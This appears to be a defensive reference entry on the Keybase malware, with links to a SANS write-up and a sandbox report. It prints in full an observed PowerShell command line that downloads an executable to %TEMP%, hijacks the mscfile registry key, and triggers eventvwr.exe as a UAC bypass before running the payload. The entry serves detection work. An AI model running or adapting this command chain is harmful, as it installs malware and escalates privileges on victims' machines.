 ## Keybase


#### Commands
---

* Powershell.exe

1.

``
-w hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://[URL],'%TEMP%\\pu457.exe') & reg add HKCU\\Software\\Classes\\mscfile\\shell\\open\\command /d %TEMP%\\pu457.exe /f & eventvwr.exe & PING -n 15 127.0.0.1>nul & %TEMP%\\pu457.exe
``

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://isc.sans.edu/forums/diary/Malicious+Office+files+using+fileless+UAC+bypass+to+drop+KEYBASE+malware/22011/

Sandbox reports:
* https://www.hybrid-analysis.com/sample/e431bc1bacde51fd39a10f418c26487561fe7c3abee15395314d9d4e621cc38e?environmentId=100

Notes:



 
